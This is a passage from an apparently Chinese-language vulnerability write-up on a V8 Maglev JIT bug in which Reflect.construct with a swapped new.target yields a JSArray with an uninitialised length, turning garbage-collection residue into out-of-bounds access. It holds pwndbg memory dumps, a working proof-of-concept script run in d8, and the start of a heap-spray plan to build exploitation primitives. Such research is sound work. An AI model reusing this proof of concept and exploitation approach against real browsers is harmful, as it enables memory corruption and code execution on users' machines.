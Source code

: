   
输出  
  
```
pwndbg> job 0x9f20004c96d0x9f20004c96d: [JSArray]-map:0x09f20018ece5 <Map[16](PACKED_DOUBLE_ELEMENTS)> [FastProperties]-prototype:0x09f20018e705 <JSArray[0]>-elements:0x09f20004c94d <FixedDoubleArray[3]> [PACKED_DOUBLE_ELEMENTS]-length:3-properties:0x09f200000219 <FixedArray[0]>-All own properties (excluding elements): {0x9f200000e0d: [String] in ReadOnlySpace:#length: 0x09f200144a3d <AccessorInfo name= 0x09f200000e0d <String[6]: #length>, data= 0x09f200000251 <undefined>> (const accessor descriptor), location: descriptor }-elements:0x09f20004c94d <FixedDoubleArray[3]> {0:1.11:2.22:3.3 }pwndbg> x/16wx 0x9f20004c96d-10x9f20004c96c:0x0018ece5  0x00000219  0x0004c94d  0x000000060x9f20004c97c:0x00000000  0x00000000  0x00000000  0x000000000x9f20004c98c:0x00000000  0x00000000  0x00000000  0x000000000x9f20004c99c:0x00000000  0x00000000  0x00000000  0x00000000
```  
  
  
  
因为使用Reflect.construct(Derived, [], Base);的时候无法创建in-object对象，所以这里混淆后的Length就只能为0，但是别忘了还有gc，我们可以主动触发gc，这样会使用到一些地址上残留的值，这样就会有一个oob了。  
  
  
因此下面是一个poc：  
  
  
```
var x = Array;class Base {}class Derived extends Base {constructor() {    x = new.target;super();  }}function construct() {var r = Reflect.construct(Derived, [], x);return r;}%PrepareFunctionForOptimization(Derived);construct();construct();%OptimizeMaglevOnNextCall(Derived);var arr = construct();// console.log(arr.length);%DebugPrint(arr);
```  
  
  
  
因为chrome执行会默认带--maglev这个flag，所以这里d8执行的时候需要加上--maglev，下面是输出，可以看到length字段已经出来了。  
  
  
```
➜  x64.release git:(11.5.150.16) ./d8 --allow-natives-syntax --maglev ./poc.jsDebugPrint: 0xf490004c9e9: [JSArray]-map:0x0f490018e4c1 <Map[16](PACKED_SMI_ELEMENTS)> [FastProperties]-prototype:0x0f490018e705 <JSArray[0]>-elements:0x0f4900000219 <FixedArray[0]> [PACKED_SMI_ELEMENTS]-length:0-properties:0x0f4900000219 <FixedArray[0]>-All own properties (excluding elements): {0xf4900000e0d: [String] in ReadOnlySpace:#length: 0x0f4900144a3d <AccessorInfo name= 0x0f4900000e0d <String[6]: #length>, data= 0x0f4900000251 <undefined>> (const accessor descriptor), location: descriptor }0xf490018e4c1: [Map] in OldSpace-type:JS_ARRAY_TYPE-instance size:16-inobject properties:0-elements kind:PACKED_SMI_ELEMENTS-unused property fields:0-enum length:invalid-back pointer:0x0f4900000251 <undefined>-prototype_validity cell:0x0f4900000ab9 <Cell value= 1> - instance descriptors #1: 0x0f490018ec71 <DescriptorArray[1]> - transitions #1: 0x0f490018ec8d <TransitionArray[4]>Transition array #1:     0x0f4900000ed1 <Symbol: (elements_transition_symbol)>: (transition to HOLEY_SMI_ELEMENTS) -> 0x0f490018eca5 <Map[16](HOLEY_SMI_ELEMENTS)>-prototype:0x0f490018e705 <JSArray[0]>-constructor:0x0f490018e42d <JSFunction Array (sfi = 0xf490014b375)>-dependent code:0x0f490004c979 <Other heap object (WEAK_ARRAY_LIST_TYPE)>-construction counter:0
```  
  
  
  
方便查阅。  
  
  
有了一个oob的原语，下面的思路比较固定，我构造了这样的一个结构，首先堆喷一个victim_array（用对象初始化），这样Elements的地址相较于oob_array会相对稳定（这里笔者的机器信息见下方，然后这里oob_array的Elements在笔者机器上的offset稳定为0x219）。  
  